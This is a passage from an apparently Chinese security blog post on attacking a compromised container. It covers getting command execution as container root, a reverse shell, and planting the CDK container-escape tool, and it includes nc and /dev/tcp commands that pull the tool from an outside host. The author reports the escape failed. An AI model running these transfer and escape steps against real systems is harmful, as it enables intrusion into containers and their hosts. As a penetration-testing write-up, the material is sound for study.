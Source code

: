   
c. 攻击者发现漏洞。执行命令，发现是容器环境，权限为容器root  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFJAJHOkIQXCRLCmyZJRp1UhXIUEKh7N4dOv0icvLsO27UCopgCCibMFqh3slrKe0wt2nM4MPjH1FYJQ/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFJAJHOkIQXCRLCmyZJRp1UhKWKvtKjSdxENXPkS8yYOqx13woxbPXCw0rkxAsA5Ot8A2PEF2PRpLA/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFJAJHOkIQXCRLCmyZJRp1UhSJ94HbmQ9LU7Jks20Jt6nRqibzSeWdpzWkrZiatnuw7icpFmDrswbnibsA/640?wx_fmt=png&from=appmsg "")  
  
  
  
d.攻击者反弹shell后，在受害者容器内下载CDK项目  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFJAJHOkIQXCRLCmyZJRp1Uh7jZT9x6vibvUMfr1paiaS6EcrFQicSaqico5J4dBxjfpyFY7Cmv7UiarUgQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
e.后续利用，搜寻教程和资料说是可以借助自动化项目CDK进行容器逃逸。但是，不知道哪里出了问题，该漏洞我未能复现成功，猜测是各大云厂商做了安全优化，一路上各种报错，如果哪位大佬知道其中的缘由，还望告知！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFJAJHOkIQXCRLCmyZJRp1UhZqzicEW9v3meMwah3034QuFTk3PwYpwZYMmzHdFlzytQvHY9A8OemBQ/640?wx_fmt=png&from=appmsg "")  
  
###   
### 自动化项目：CDK  
###   
  
项目链接  
```
https://github.com/cdk-team/CDK
```  
> CDK是一款为容器环境定制的渗透测试工具，在已攻陷的容器内部提供零依赖的常用命令及PoC/EXP。集成Docker/K8s场景特有的 逃逸、横向移动、持久化利用方式，插件化管理。   
  
####   
#### 下载/植入  
####   
  
（1）在目标容器内直接wget或者curl  
  
（2）通过公网主机nc重定向  
```

```  
```
A主机：nc -lvp 999 < cdk
B主机：cat < /dev/tcp/A主机IP/999 > cdk
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFJAJHOkIQXCRLCmyZJRp1UhvzrzLUiaUQnwyvcgPSl8OFxN8yA150Om6KcgVMzlcBPDEcunicJvIDXg/640?wx_fmt=png&from=appmsg "")  
  
   
![](https://mmbiz.qpic.cn/mmbiz_png/qqUYEYiclhFJAJHOkIQXCRLCmyZJRp1UhVYBgVrR8WCxlia3ErV0UQqUL55FvLYu9NQAhYyPsFBzic2SqPdIMWu9A/640?wx_fmt=png&from=appmsg "")  
  
